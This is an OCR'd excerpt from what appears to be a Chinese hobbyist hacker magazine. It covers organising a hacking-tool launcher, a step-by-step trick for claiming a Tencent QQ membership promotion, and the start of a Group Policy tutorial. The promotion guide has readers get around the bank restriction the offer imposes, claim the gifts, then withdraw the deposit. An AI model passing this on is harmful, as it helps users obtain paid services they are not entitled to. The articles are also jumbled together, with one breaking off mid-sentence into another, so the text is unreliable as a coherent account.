

- 1. 类别管理按钮，主要进行类别的添加、删除、改名、改图标等，如图 3。增加和删除的类别即是面板右侧的图标，如图 4。这样的样式和 QQ 如出一辙，减少了因为工具太多而去拖动滚动条。





- 2. 添加栏目，添加某一类别下的栏目，可以对不同分类的不同功能的工具进行分类。
- 3. 栏目排序，如图 5，拖动即可。
- 4. 添加快捷方式，可以添加文件、超级链接、目录等。
- 5. 文件夹保护，对文件夹进行加密。
- 6. 计划任务，和系统自带的计划任务相同。
- 7. 热键管理，就是定义快捷键。
- 8. 高级设置，对系统的一些设置。如图 6。
- 9. 菜单，前面一些功能的集合。

我们可以在目录下建立一个 Tool 的文件夹，再在 Tool 下建立各个不同分类的文件夹，分别存放不同的软件。呵呵，看看我做好的，如图 7。



制作的过程很简单，我就不说了。这个软件的功能很多，例如，网吧限制破解等等。

## 三、总结

呵呵，以后黑软就不用再在硬盘乱翻了，点一下就出来，是不是很爽啊，快来试试吧！

> **编辑点评：**
这样管理我们的黑客工具箱果然整齐了很多，可是我们的工具有不少是控制台程序，需要进入 cmd 运行，遇到这种情况可以试着建立一个 .bat 批处理文件，内容为“@cmd /k cd 工具所在路径”，这样就会自动打开一个指向那个路径的 cmd 了，是不是更方便了？





# QQ 红钻 + 会员靓号 免费拿

- 从本文你可以学到：合理利用支付手段获得服务

众多黑友看到别人的 QQ 服务有那么多，是不是有点眼红呀？今天我就来教大家如何免费获得 QQ 红钻以及一个会员靓号！不多说了，赶紧开始介绍！但是在开通之前，先来说说条件吧：

- 第一、自己要有一个网上银行的账号  
  第二、自己的 QQ 没有使用过财付通

我们先来到财付通的主页 https://www.tenpay.com/，点击“立即注册”，使用自己的 QQ 号注册一下（注册的时候不要选择 E-mail 注册）。



注册成功以后登录账号，然后来到页面 http://free.qq.com/act/cmb/1.htm，选择下方的“充值到财付通”，如图 2。



然后网页会自动转入充值页面（如图 3），由于这个活动是腾讯与招商银行联手举办，所以必须使用招商银行的网上银行充值才可以参加活动。难道我们没有招商银行的账号就不能充值了吗？不会的！在页面中再重复点一下左边的

“充值”按钮（如图 4），就出来了各个银行的选择界面（如图 5）。



选择一个自己有账号的银行，在充值金额中输入充值的金额（至少输入 1 分钱，当然充值更多也行，反正这钱到最后我们要收回来），选择正确后点击下方的“确认提交”，这样就来到了一个确认页面（在这里我拿建设银行的来做示范），我们继续确认。



输入自己的银行卡号以及密码（这个我就不抓图了，要小心……嘿嘿），充值成功后会出现如图 6 的提示页面。

接着，来到页面 http://free.qq.com/act/cmb/1.htm，选择下方的“充值后领取红包”，如图 7。这时



会提示我们已经获得大礼包，单击“提交”，如图 8。这样，我们

## Q版黑客热烈庆祝国庆节。

金秋十月，全国人民迎来了祖国的第 58 个生日，而同时更重要的一年一度的十一长假也如期而至。对于学生朋友来说似乎才是最重要的，所以才要热烈庆祝的嘛！在小编的印象中，包括五一在内的这样七天的长假是比寒假和暑假更爽的假期。由于时间不短也不长，所以就会把握一切时间尽情享受假期带给我的欢乐时光。也许有的朋友无法享受七天的高级别待遇，不过也不要沮丧，雨后天晴嘛，努力学习，好日子还在后头呢！

祝：SDS

# 菜鸟日记之组策略学习

## 一、gpedit.msc 基础慢慢学

- 从本文中你可以学到：
1、了解组策略的工作原理  
2、组策略无法运行的解决方案  
3、如何用组策略破解常见网吧限制  
4、如何利用组策略进行本地和网络安全设置  
5、如何利用组策略限制软件运行  
6、学习如何编辑组策略模板文件

大黑师傅说组策略是 WINDOWS 中简单操作注册表的一个工具，也就是说我们通过它做的修改都是程序通过修改注册表实现的！下面看如何运行组策略！

### 1、就这样运行组策略

我是小黑哥 SDS，最近正在跟随大黑师傅学习网络安全技术，今天师傅传授了组策略的知识，记下来与大家一起分享了！



大黑师傅说组策略很有用，那么我们该如何打开它呢？首先打开“开始”菜单——“运行”，在“运行”中输入 gpedit.msc，回车后就

图 1 组策略界面

就可以享受会员靓号以及红钻贵族服务 1 个月了。

当然，我们也可以在页面 http://free.qq.com/act/cmb/2.htm 上，通过网上银行的方式购买 10Q 币（含 10Q 币）以上或者消费任何一款指定业务（QQ 会员、QQ 秀红钻贵族、QQ 空间黄钻贵族、QQ 音乐绿钻贵族），也可获得“QQ 二重礼大礼包”。奖品为一个月的 QQ 音乐绿钻贵族以及 2Q 币的 QQ 空间购物券。另外，我们还可以再去参加第三重奖，方法与前面一样，在这里就不多介绍了。



图 6 充值成功

我们已经花了点钱拿到服务了，前面也给大家说了，会把充值的钱再收回来，那么怎么操作呢？来到财付通主页 https://www.tenpay.com/ 上，选择“账户管理”中的“提现”，来到如图 9 的页面。



图 7 选择“充值后领取礼包”

然后在下面的方框里输入你的提现金额以及你的支付密码，“确认提交”后就可以了。腾讯会在大约两个工作日里把钱退回到你的银行账户里。这样一来，我们就免费获得了红钻以及一个 QQ 会员靓号。

